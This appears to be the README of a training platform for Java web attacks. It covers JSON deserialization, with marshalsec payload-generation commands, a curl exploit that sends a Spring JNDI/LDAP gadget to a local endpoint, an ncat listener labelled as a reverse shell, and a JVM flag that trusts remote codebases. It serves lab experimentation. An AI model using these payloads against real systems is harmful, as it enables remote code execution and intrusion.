 ## Java Web Attacks Training Plattform

#### Introduction

You can use this plattform to develop and experiment with existing java web attacks.

#### JSON Deserialization

Payload Generation via [marshalsec](https://github.com/mbechler/marshalsec/)
```
java -cp marshalsec-0.0.1-SNAPSHOT-all.jar marshalsec.Jackson -a -v
java -cp marshalsec-0.0.1-SNAPSHOT-all.jar marshalsec.JsonIO -a -v
```

Exploitation Code
```
curl -x "" -H "Content-Type: application/json" -X POST -d "{[\"org.springframework.beans.factory.config.PropertyPathFactoryBean\",{\"targetBeanName\":\"ldap://localhost:1389/obj\",\"propertyPath\":\"foo\",\"beanFactory\":[\"org.springframework.jndi.support.SimpleJndiBeanFactory\",{\"shareableResources\":[\"ldap://localhost:1389/obj\"]}]}]}" http://localhost:31337/api/json
```

Reverse Shell
```
ncat -lkvp 1389
```

The vulnerable endpoint needs the permission to download the evil class file located in /exploit/EvilObject.class

-.-

```
-Dcom.sun.jndi.rmi.object.trustURLCodebase=true
```